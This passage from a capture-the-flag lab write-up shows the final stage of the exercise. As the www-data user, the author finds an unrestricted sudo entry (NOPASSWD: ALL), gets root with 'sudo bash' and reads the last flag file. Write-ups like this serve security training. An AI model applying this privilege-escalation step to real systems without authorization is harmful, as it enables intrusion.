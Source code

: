 The second ingredient is located at **`/home/rick/second ingredient`**.
### Third ingredient

The `root` directory is not accessible, it should probably hide the 3rd ingredient.

```bash
www-data@ip-10-10-19-240:/home/rick$ ls /root
ls /root
ls: cannot open directory '/root': Permission denied
```

So let's check our privileges:
```bash
www-data@ip-10-10-19-240:/home/rick$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-19-240:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-19-240:
    (ALL) NOPASSWD: ALL
```

**" `(ALL) NOPASSWD: ALL` "**

![Really???](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExMXN0YXhlMGp1a2wybGdnbnNkb2RkOHZhbmloYnR2OXFyc21oeTF1eCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oOTTyHRHj0HYY/giphy.gif){: w="500"}

We can higher our privileges by executing **`sudo bash`** and find the 3rd ingredient at **`/root/3rd.txt`**.

All flags down, mission passed.

![](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExYXhnMTYzdmhpZ2E0NThmdHU1c3ExeDhsZXpvYjNreW1jMmh2Zzl2dyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/Qs0QEnugOy0xIsFkpD/giphy.gif)

Be proud of what you’ve accomplished.

> "Even garbage can become intel—hackers look everywhere."

> ― Kevin Mitnick, Former Hacker turned Security Consultant

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>
